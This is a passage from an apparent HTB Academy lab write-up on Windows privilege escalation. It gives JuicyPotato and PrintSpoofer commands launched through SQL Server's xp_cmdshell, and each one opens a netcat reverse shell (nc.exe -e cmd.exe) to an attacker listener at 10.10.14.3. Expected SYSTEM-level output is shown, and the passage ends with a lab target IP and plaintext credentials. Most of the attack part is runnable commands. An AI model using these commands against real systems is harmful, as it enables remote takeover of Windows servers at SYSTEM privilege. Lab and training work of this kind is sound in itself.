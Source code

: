 #### JuicyPotato Exploitation
```cmd
# Upload JuicyPotato.exe and nc.exe to target
# Set up listener: nc -lnvp 8443

# Execute privilege escalation
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

# Expected output:
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

#### PrintSpoofer Alternative
```cmd
# Modern Windows systems
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

# Expected output:
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

### Verification
```cmd
# Confirm SYSTEM access
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname  
WINLPE-SRV01
```

## 🛠️ Tool Comparison

| Tool | OS Support | Method | Reliability |
|------|------------|--------|-------------|
| **JuicyPotato** | ≤ Server 2016 | DCOM/NTLM Reflection | High |
| **PrintSpoofer** | Server 2019+ Win10 1809+ | Print Spooler Service | High |
| **RoguePotato** | Server 2019+ Win10+ | OXID Resolver | Medium |
| **SweetPotato** | Universal | Multiple methods | High |

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Target**: `10.129.43.43` (ACADEMY-WINLPE-SRV01)
- **Credentials**: `sql_dev:Str0ng_P@ssw0rd!`
- **Objective**: Escalate privileges and retrieve flag

